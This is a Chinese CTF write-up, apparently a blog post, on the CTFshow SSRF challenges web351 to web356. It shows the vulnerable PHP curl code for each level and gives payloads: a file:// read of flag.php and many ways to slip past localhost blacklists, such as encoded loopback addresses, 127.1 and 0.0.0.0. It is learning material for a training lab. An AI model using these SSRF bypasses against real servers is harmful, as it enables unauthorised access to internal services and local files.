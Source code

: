 @[toc]

## 

 内网和外网的区别：

https://zhuanlan.zhihu.com/p/147282153

ssh文件传输协议：远程登录，从本机到服务器需要该协议

url协议：[[WEB安全\]SSRF中URL的伪协议 - 肖洋肖恩、 - 博客园 (cnblogs.com)](https://www.cnblogs.com/-mo-/p/11673190.html)

[php协议详解](https://www.cnblogs.com/endust/p/11804767.html)

##  CTFshow

对SSRF，比较重要的就是先尝试每一个协议是否可以使用。

###  web351

```php
 <?php
error_reporting(0);
highlight_file(__FILE__);
$url=$_POST['url'];
$ch=curl_init($url);//初始化一个curl的会话
curl_setopt($ch, CURLOPT_HEADER, 0);//对会话进行设置参数
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
$result=curl_exec($ch);//将会话发给浏览器
curl_close($ch);//关闭会话
echo ($result);
?> 
```

代码审计，发现就是特别普通的curl语句，没有任何过滤，我们使用file协议来读取本地文件

所以我们可以使用file://来读取flag.php文件

payload

```php
POST:url=file:///var/www/html/flag.php(一般的路径是这个)
还有个：
    url=http://127.0.0.1/flag.php(使用http://协议访问本地文件，类似于我们自己在本地搭建网站)
```

nginx配置路径：/etc/nginx/ngin.conf,用file可以访问

#### file协议和http协议的区别

```
file 协议与 http 协议的区别 ¶
（1）file 协议主要用于读取服务器本地文件，访问的是本地的静态资源
（2）http 是访问本地的 html 文件，简单来说 file 只能静态读取，http 可以动态解析
（3）http 服务器可以开放端口，让他人通过 http 访问服务器资源，但 file 不可以
（4）file 对应的类似 http 的协议是 ftp 协议（文件传输协议）
（5）file 不能跨域
```

###  web352

```php
 <?php
error_reporting(0);
highlight_file(__FILE__);
$url=$_POST['url'];
$x=parse_url($url);
if($x['scheme']==='http'||$x['scheme']==='https'){
if(!preg_match('/localhost|127.0.0/')){
$ch=curl_init($url);
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
$result=curl_exec($ch);
curl_close($ch);
echo ($result);
}
else{
    die('hacker');
}
}
else{
    die('hacker');
}
?> 
```

parse_url:

```
本函数解析一个 URL 并返回一个关联数组，包含在 URL 中出现的各种组成部分。
例子：
<?php
$url = 'http://username:password@hostname/path?arg=value#anchor';

print_r(parse_url($url));

echo parse_url($url, PHP_URL_PATH);
?>
输出：
Array
(
    [scheme] => http
    [host] => hostname
    [user] => username
    [pass] => password
    [path] => /path
    [query] => arg=value
    [fragment] => anchor
)
/path
```

这个题需要满足传输协议为http,https,但是ip地址不能为127.0.0.1

有许多绕过方式

[进制转换](https://tool.520101.com/wangluo/jinzhizhuanhuan/)

```
1.进制转换
十六进制
url=http://0x7F.0.0.1/flag.php
八进制
url=http://0177.0.0.1/flag.php
10 进制整数格式
url=http://2130706433/flag.php
16 进制整数格式，还是上面那个网站转换记得前缀0x
url=http://0x7F000001/flag.php
2.特殊模式
url=http://127.1/flag.php
url=http://0/flag.php
url=http://127.0000000000000.001/flag.php
3.0.0.0.0绕过
url=http://0.0.0.0/flag.php
4.用CIDR绕过localhost
url=http://127.127.127.127/flag.php
5.
短标签绕过，好像不行
ipv6绕过[::1]，这题也不行。
使用句号绕过：url=http://127。0。0。1/flag.php，也不行
DNS重绑定
```

###  web353

```php
 <?php
error_reporting(0);
highlight_file(__FILE__);
$url=$_POST['url'];
$x=parse_url($url);
if($x['scheme']==='http'||$x['scheme']==='https'){
if(!preg_match('/localhost|127\.0\.|\。/i', $url)){
$ch=curl_init($url);
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
$result=curl_exec($ch);
curl_close($ch);
echo ($result);
}
else{
    die('hacker');
}
}
else{
    die('hacker');
}
?> 
```

同上，但是有一些payload不能用

###  web354

###  web355

```php
 <?php
error_reporting(0);
highlight_file(__FILE__);
$url=$_POST['url'];
$x=parse_url($url);
if($x['scheme']==='http'||$x['scheme']==='https'){
$host=$x['host'];
if((strlen($host)<=5)){
$ch=curl_init($url);
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
$result=curl_exec($ch);
curl_close($ch);
echo ($result);
}
else{
    die('hacker');
}
}
else{
    die('hacker');
}
?> hacker
```

因为设置$host<=5的限制，我们只需要构造一个host的长度<=5

payload

```php
url=http://0/flag.php
url=http://127.1/flag.php
```

###  web356

$host小于3

payload:

```php
url=http://0/flag.php
```





